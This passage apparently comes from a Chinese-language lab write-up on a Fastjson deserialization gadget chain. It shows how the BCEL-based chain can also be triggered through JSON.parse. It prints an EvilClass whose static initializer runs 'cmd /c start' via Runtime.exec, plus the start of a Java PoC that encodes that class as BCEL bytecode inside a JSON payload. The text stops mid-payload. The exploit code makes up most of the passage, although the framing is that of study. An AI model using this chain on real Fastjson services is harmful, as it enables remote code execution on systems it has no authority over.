 ![image-20250312150918470](./assets/image-20250312150918470.png)

哎哎哎，你以为结束了吗？你知道这个链还能在`JSON.parse`方法中也能触发吗？

### POC(parse)

这里就先给POC了，可以一边看我的代码分析，一边调试。感觉我分析的也不是很好，`ASMSerializer`中的代码我也看的懵懵的。

首先`EvilClass`中的代码是一样的：

```java
package fastjson_labs.chain;

import java.io.IOException;
public class EvilClass {
    static {
        try {
            Runtime.getRuntime().exec("cmd /c start");
        } catch (IOException ignore) { }
    }
}
```

然后是主代码部分：

```java
package fastjson_labs.chain;

import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;

public class BCELTest {
    public static void main(String[] args) throws Exception {
        JavaClass cls = Repository.lookupClass(EvilClass.class);
        String code = Utility.encode(cls.getBytes(), true);//转换为字节码并编码为bcel字节码
        System.out.println(code);
        String payload = 
        		"{\n" +
                "    {\n" +
                "        \"aaa\": {\n" +
```
